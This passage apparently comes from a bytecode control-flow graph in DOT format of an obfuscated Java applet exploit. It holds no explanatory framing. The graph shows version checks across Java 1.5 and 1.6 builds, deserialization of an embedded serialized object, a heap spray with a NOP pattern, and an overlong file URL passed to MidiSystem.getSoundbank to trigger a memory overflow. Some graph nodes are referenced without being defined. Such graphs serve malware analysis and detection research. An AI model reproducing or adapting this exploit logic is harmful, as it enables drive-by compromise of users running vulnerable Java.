    "push \"1.5.0_03\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r5";
    "push \"1.5.0_04\""
    "load.r r5"->"push \"1.5.0_04\"";
    "push \"1.5.0_04\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r5";
    "push \"1.5.0_05\""
    "load.r r5"->"push \"1.5.0_05\"";
    "push \"1.5.0_05\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r5";
    "push \"1.5.0_06\""
    "load.r r5"->"push \"1.5.0_06\"";
    "push \"1.5.0_06\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r5";
    "push \"1.5.0_07\""
    "load.r r5"->"push \"1.5.0_07\"";
    "push \"1.5.0_07\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r5";
    "push \"1.5.0_08\""
    "load.r r5"->"push \"1.5.0_08\"";
    "push \"1.5.0_08\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r5";
    "push \"1.5.0_09\""
    "load.r r5"->"push \"1.5.0_09\"";
    "push \"1.5.0_09\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r5";
    "push \"1.5.0_10\""
    "load.r r5"->"push \"1.5.0_10\"";
    "push \"1.5.0_10\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r5";
    "push \"1.5.0_11\""
    "load.r r5"->"push \"1.5.0_11\"";
    "push \"1.5.0_11\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r5";
    "push \"1.5.0_12\""
    "load.r r5"->"push \"1.5.0_12\"";
    "push \"1.5.0_12\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r5";
    "push \"1.5.0_13\""
    "load.r r5"->"push \"1.5.0_13\"";
    "push \"1.5.0_13\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r5";
    "push \"1.5.0_14\""
    "load.r r5"->"push \"1.5.0_14\"";
    "push \"1.5.0_14\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r5";
    "push \"1.5.0_15\""
    "load.r r5"->"push \"1.5.0_15\"";
    "push \"1.5.0_15\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r5";
    "push \"1.5.0_16\""
    "load.r r5"->"push \"1.5.0_16\"";
    "push \"1.5.0_16\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r5";
    "push \"1.6.0\""
    "load.r r5"->"push \"1.6.0\"";
    "push \"1.6.0\""->"ifcmpeq.r new java.io.ObjectInputStream";
    "ifcmpeq.r new java.io.ObjectInputStream"->"load.r r5";
    "push \"1.6.0_01\""
    "load.r r5"->"push \"1.6.0_01\"";
    "push \"1.6.0_01\""->"ifcmpeq.r new java.io.ObjectInputStream";
    "ifcmpeq.r new java.io.ObjectInputStream"->"load.r r5";
    "push \"1.6.0_02\""
    "load.r r5"->"push \"1.6.0_02\"";
    "push \"1.6.0_02\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r5";
    "push \"1.6.0_03\""
    "load.r r5"->"push \"1.6.0_03\"";
    "push \"1.6.0_03\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r5";
    "push \"1.6.0_04\""
    "load.r r5"->"push \"1.6.0_04\"";
    "push \"1.6.0_04\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r5";
    "push \"1.6.0_05\""
    "load.r r5"->"push \"1.6.0_05\"";
    "push \"1.6.0_05\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r5";
    "push \"1.6.0_06\""
    "load.r r5"->"push \"1.6.0_06\"";
    "push \"1.6.0_06\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r5";
    "push \"1.6.0_07\""
    "load.r r5"->"push \"1.6.0_07\"";
    "push \"1.6.0_07\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r5";
    "push \"1.6.0_10\""
    "load.r r5"->"push \"1.6.0_10\"";
    "push \"1.6.0_10\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "ifcmpeq.i load.r r5"
    "push -1"->"ifcmpeq.i load.r r5";
    "new java.io.ObjectInputStream"
    "ifcmpeq.i load.r r5"->"new java.io.ObjectInputStream";
    "new java.io.ObjectInputStream"->"dup1.r";
    "new java.io.ByteArrayInputStream"
    "dup1.r"->"new java.io.ByteArrayInputStream";
    "new java.io.ByteArrayInputStream"->"dup1.r";
    "dup1.r"->"load.r r0";
    "fieldget <dev.s.Saxonia: java.lang.String serializedObject>"
    "load.r r0"->"fieldget <dev.s.Saxonia: java.lang.String serializedObject>";
    "staticinvoke <dev.s.Bavarian: byte[] StringToBytes(java.lang.String)>"
    "fieldget <dev.s.Saxonia: java.lang.String serializedObject>"->"staticinvoke <dev.s.Bavarian: byte[] StringToBytes(java.lang.String)>";
    "specialinvoke <java.io.ByteArrayInputStream: void <init>(byte[])>"
    "staticinvoke <dev.s.Bavarian: byte[] StringToBytes(java.lang.String)>"->"specialinvoke <java.io.ByteArrayInputStream: void <init>(byte[])>";
    "specialinvoke <java.io.ObjectInputStream: void <init>(java.io.InputStream)>"
    "specialinvoke <java.io.ByteArrayInputStream: void <init>(byte[])>"->"specialinvoke <java.io.ObjectInputStream: void <init>(java.io.InputStream)>";
    "virtualinvoke <java.io.ObjectInputStream: java.lang.Object readObject()>"
    "specialinvoke <java.io.ObjectInputStream: void <init>(java.io.InputStream)>"->"virtualinvoke <java.io.ObjectInputStream: java.lang.Object readObject()>";
    "pop"
    "virtualinvoke <java.io.ObjectInputStream: java.lang.Object readObject()>"->"pop";
    "pop"->"load.r r0";
    "load.r r0"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r $r12";
    "load.r $r12"->"push 2";
    "push 2"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r $r12";
    "load.r $r12"->"push 2";
    "push 2"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"virtualinvoke <dev.s.Saxonia: java.lang.String getParameter(java.lang.String)>";
    "virtualinvoke <dev.s.Saxonia: java.lang.String getParameter(java.lang.String)>"->"store.r r8";
    "store.r r8"->"load.r r0";
    "load.r r0"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r $r12";
    "load.r $r12"->"push 0";
    "push 0"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r $r12";
    "load.r $r12"->"push 1";
    "push 1"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"virtualinvoke <dev.s.Saxonia: java.lang.String getParameter(java.lang.String)>";
    "virtualinvoke <dev.s.Saxonia: java.lang.String getParameter(java.lang.String)>"->"store.r r10";
    "staticget <dev.s.Silezia: dev.s.Silezia instance>"
    "store.r r10"->"staticget <dev.s.Silezia: dev.s.Silezia instance>";
    "staticget <dev.s.Silezia: dev.s.Silezia instance>"->"load.r r10";
    "load.r r10"->"load.r r8";
    "virtualinvoke <dev.s.Silezia: void Westfalia(java.lang.String,java.lang.String)>"
    "load.r r8"->"virtualinvoke <dev.s.Silezia: void Westfalia(java.lang.String,java.lang.String)>";
    "goto load.r r5"
    "virtualinvoke <dev.s.Silezia: void Westfalia(java.lang.String,java.lang.String)>"->"goto load.r r5";
    "goto load.r r5"->"load.r r5";
    "push \"1.5.0_17\""
    "load.r r5"->"push \"1.5.0_17\"";
    "push \"1.5.0_17\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "ifcmpne.i push 47"
    "push -1"->"ifcmpne.i push 47";
    "ifcmpne.i push 47"->"load.r r5";
    "push \"1.5.0_18\""
    "load.r r5"->"push \"1.5.0_18\"";
    "push \"1.5.0_18\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i push 47";
    "ifcmpne.i push 47"->"load.r r5";
    "push \"1.5.0_19\""
    "load.r r5"->"push \"1.5.0_19\"";
    "push \"1.5.0_19\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i push 47";
    "ifcmpne.i push 47"->"load.r r5";
    "push \"1.5.0_20\""
    "load.r r5"->"push \"1.5.0_20\"";
    "push \"1.5.0_20\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i push 47";
    "ifcmpne.i push 47"->"load.r r5";
    "push \"1.5.0_21\""
    "load.r r5"->"push \"1.5.0_21\"";
    "push \"1.5.0_21\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i push 47";
    "ifcmpne.i push 47"->"load.r r6";
    "load.r r6"->"push \"i=1\"";
    "push \"i=1\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "ifcmpeq.i return"
    "push -1"->"ifcmpeq.i return";
    "ifcmpeq.i return"->"push 47";
    "push 304"
    "push 47"->"push 304";
    "push 304"->"staticinvoke <dev.s.Saxonia: java.lang.String repeat(char,int)>";
    "staticinvoke <dev.s.Saxonia: java.lang.String repeat(char,int)>"->"store.r r5";
    "store.r r5"->"push 4";
    "push 4"->"newarray";
    "newarray"->"store.r r6";
    "store.r r6"->"load.r r6";
    "load.r r6"->"push 0";
    "push 0"->"push \"fi\"";
    "push \"fi\""->"arraywrite.r";
    "arraywrite.r"->"load.r r6";
    "load.r r6"->"push 1";
    "push 1"->"push \"le:\"";
    "push \"le:\""->"arraywrite.r";
    "arraywrite.r"->"load.r r6";
    "load.r r6"->"push 2";
    "push 2"->"push \"//\"";
    "push \"//\""->"arraywrite.r";
    "arraywrite.r"->"load.r r6";
    "load.r r6"->"push 3";
    "push \"$\\\"\""
    "push 3"->"push \"$\\\"\"";
    "push \"$\\\"\""->"arraywrite.r";
    "arraywrite.r"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r6";
    "load.r r6"->"push 0";
    "push 0"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r6";
    "load.r r6"->"push 1";
    "push 1"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r6";
    "load.r r6"->"push 2";
    "push 2"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r5";
    "load.r r5"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r6";
    "load.r r6"->"push 3";
    "push 3"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r6";
    "load.r r6"->"push 3";
    "push 3"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r6";
    "load.r r6"->"push 3";
    "push 3"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r6";
    "load.r r6"->"push 3";
    "push 3"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r6";
    "load.r r6"->"push 3";
    "push 3"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r6";
    "load.r r6"->"push 3";
    "push 3"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r5";
    "store.r r5"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r0";
    "load.r r0"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r $r12";
    "load.r $r12"->"push 0";
    "push 0"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r $r12";
    "load.r $r12"->"push 1";
    "push 1"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"virtualinvoke <dev.s.Saxonia: java.lang.String getParameter(java.lang.String)>";
    "virtualinvoke <dev.s.Saxonia: java.lang.String getParameter(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"11\"";
    "push \"11\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r $r12";
    "store.r $r12"->"push \"\"";
    "push \"\""->"store.r r6";
    "store.r r6"->"push 0";
    "store.i r8"
    "push 0"->"store.i r8";
    "load.i r8"
    "store.i r8"->"load.i r8";
    "load.i r8"->"load.r $r12";
    "load.r $r12"->"virtualinvoke <java.lang.String: int length()>";
    "ifcmpge.i load.r r6"
    "virtualinvoke <java.lang.String: int length()>"->"ifcmpge.i load.r r6";
    "ifcmpge.i load.r r6"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r6";
    "load.r r6"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r $r12";
    "load.r $r12"->"load.i r8";
    "load.i r8"->"virtualinvoke <java.lang.String: char charAt(int)>";
    "virtualinvoke <java.lang.String: char charAt(int)>"->"staticinvoke <java.lang.Integer: java.lang.String toHexString(int)>";
    "staticinvoke <java.lang.Integer: java.lang.String toHexString(int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r6";
    "inc.i r8 1"
    "store.r r6"->"inc.i r8 1";
    "goto load.i r8"
    "inc.i r8 1"->"goto load.i r8";
    "store.r r0"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r0";
    "store.r r0"->"staticget <java.lang.System: java.io.PrintStream out>";
    "staticget <java.lang.System: java.io.PrintStream out>"->"load.r r0";
    "load.r r0"->"virtualinvoke <java.io.PrintStream: void println(java.lang.Object)>";
    "virtualinvoke <java.io.PrintStream: void println(java.lang.Object)>"->"return";
    "ifcmpge.i load.r r6"->"load.r r6";
    "load.r r6"->"virtualinvoke <java.lang.String: int length()>";
    "push 8"
    "virtualinvoke <java.lang.String: int length()>"->"push 8";
    "push 8"->"rem.i";
    "ifeq load.r r0"
    "rem.i"->"ifeq load.r r0";
    "ifeq load.r r0"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r6";
    "load.r r6"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"26\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"26\"";
    "push \"26\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r6";
    "store.r r6"->"goto load.r r6";
    "ifeq load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r3";
    "load.r r3"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r6";
    "load.r r6"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "push \"90909090\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"push \"90909090\"";
    "virtualinvoke <dev.s.Saxonia: java.nio.IntBuffer[] spray(java.lang.String,java.lang.String)>"
    "push \"90909090\""->"virtualinvoke <dev.s.Saxonia: java.nio.IntBuffer[] spray(java.lang.String,java.lang.String)>";
    "fieldput <dev.s.Saxonia: java.nio.IntBuffer[] mem>"
    "virtualinvoke <dev.s.Saxonia: java.nio.IntBuffer[] spray(java.lang.String,java.lang.String)>"->"fieldput <dev.s.Saxonia: java.nio.IntBuffer[] mem>";
    "new java.net.URL"
    "fieldput <dev.s.Saxonia: java.nio.IntBuffer[] mem>"->"new java.net.URL";
    "new java.net.URL"->"dup1.r";
    "dup1.r"->"load.r r5";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"
    "load.r r5"->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "staticinvoke <javax.sound.midi.MidiSystem: javax.sound.midi.Soundbank getSoundbank(java.net.URL)>"
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"staticinvoke <javax.sound.midi.MidiSystem: javax.sound.midi.Soundbank getSoundbank(java.net.URL)>";
    "staticinvoke <javax.sound.midi.MidiSystem: javax.sound.midi.Soundbank getSoundbank(java.net.URL)>"->"pop";
    "push 10L"
    "pop"->"push 10L";
    "staticinvoke <java.lang.Thread: void sleep(long)>"
    "push 10L"->"staticinvoke <java.lang.Thread: void sleep(long)>";
    "goto push 10L"
    "staticinvoke <java.lang.Thread: void sleep(long)>"->"goto push 10L";
    "virtualinvoke <dev.s.Silezia: void Westfalia(java.lang.String,java.lang.String)>"->"store.r r8";
    "ifcmpge.i load.r i47"->"load.r i47";
    "load.r i47"->"virtualinvoke <java.lang.String: int length()>";
    "virtualinvoke <java.lang.String: int length()>"->"push 8";
    "push 8"->"rem.i";
    "rem.i"->"ifeq load.r r0";
    "ifeq load.r r0"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r i47";
    "load.r i47"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"26\"";
    "push \"26\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r i47";
    "goto load.r i47"
    "store.r i47"->"goto load.r i47";
    "ifeq load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r3";
    "load.r r3"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r i47";
    "load.r i47"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"push \"90909090\"";
    "push \"90909090\""->"virtualinvoke <dev.s.Saxonia: java.nio.IntBuffer[] spray(java.lang.String,java.lang.String)>";
    "virtualinvoke <dev.s.Saxonia: java.nio.IntBuffer[] spray(java.lang.String,java.lang.String)>"->"fieldput <dev.s.Saxonia: java.nio.IntBuffer[] mem>";
    "fieldput <dev.s.Saxonia: java.nio.IntBuffer[] mem>"->"new java.net.URL";
    "new java.net.URL"->"dup1.r";
    "dup1.r"->"load.r r8";
    "load.r r8"->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"staticinvoke <javax.sound.midi.MidiSystem: javax.sound.midi.Soundbank getSoundbank(java.net.URL)>";
    "staticinvoke <javax.sound.midi.MidiSystem: javax.sound.midi.Soundbank getSoundbank(java.net.URL)>"->"pop";
    "pop"->"push 10L";
    "push 10L"->"staticinvoke <java.lang.Thread: void sleep(long)>";
    "staticinvoke <java.lang.Thread: void sleep(long)>"->"goto push 10L";
    "ifcmpne.i push 0"->"push 0";
    "push 0"->"store.b r10";
    "ifcmpeq.i push 0"->"push 0";
    "push 0"->"store.b r8";
}

